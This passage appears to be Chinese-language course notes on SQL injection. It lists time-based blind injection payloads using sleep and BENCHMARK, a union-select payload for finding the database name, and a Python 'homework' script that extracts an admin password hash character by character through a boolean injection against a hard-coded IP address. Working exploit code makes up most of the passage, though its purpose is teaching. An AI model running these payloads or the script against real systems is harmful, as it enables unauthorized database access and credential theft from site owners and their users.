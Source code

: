    - 页面不存在不同回显，但SQL语句被执行 &rarr; 逐个猜测 + 延时执行
   - payload：

   ```mysql
   if(ascii(substr(database(),1,1))>115,0,sleep(5))%23
   ```

   - MySQL：

   ```mysql
   BENCHMARK(100000, MD5(1)) or sleep(5)
   ```

- 课后习题Python爆破代码：

```python
import requests
from random import sample

md5str = '0123456789abcdefghijklmnopqrstuvwxyz}'
# 最后一个字符表示一个比z大的ascii码字符

url = 'http://202.112.51.184:8001/'
payload = {'username': 'admin', 'password':'test'} # 声明payload为一个字典

crackres = ['unsolve']*33
crackres[32] = 'end' # 标志crack结果list的末尾
crackpos = 0 # 从0开始爆破

session = requests.Session()
defaultlen = len(session.post(url, data=payload).content)

while crackres[crackpos] != 'end':
    for index in range(len(md5str)):
        thispassword = ''.join(crackres[0:crackpos]) + md5str[index+1]
        payload['username'] = "admin' and password > '" + thispassword + "'#"
        response = session.post(url, data=payload)
        if len(response.content) != defaultlen:
            crackres[crackpos] = md5str[index]
            break
    crackpos = crackpos + 1

print('Password md5: ',''.join(crackres[0:32]))
```

### SQL注入的利用代码

1. 猜测MySQL的表名和字段名：MySQL的Information_schema数据库存储了整个数据库的结构信息，存放在Information_schema.tables、Information_schema.columns表中。

   - 爆数据库 payload：

   ```mysql
   union select 1,2,database()%23
   ```
